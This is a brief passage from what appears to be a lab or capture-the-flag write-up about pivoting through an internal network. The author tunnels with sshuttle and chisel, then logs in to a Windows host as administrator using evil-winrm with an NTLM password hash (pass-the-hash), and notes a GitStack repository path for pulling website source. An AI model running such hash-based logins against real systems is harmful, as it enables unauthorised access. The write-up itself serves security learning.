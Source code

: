 
So rather than going and simply fuzzing we will take a you turn and simply download the source code locally aka move laterally.

Note that we have both the sshuttle and chisel running in order to access the personal webpage
![[Pasted image 20240101153914.png]]
![[Pasted image 20240101153848.png]]
![[Pasted image 20240101153858.png]]



```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```
![[Pasted image 20240101153504.png]]


```
C:\GitStack\repositories\Website.git
```
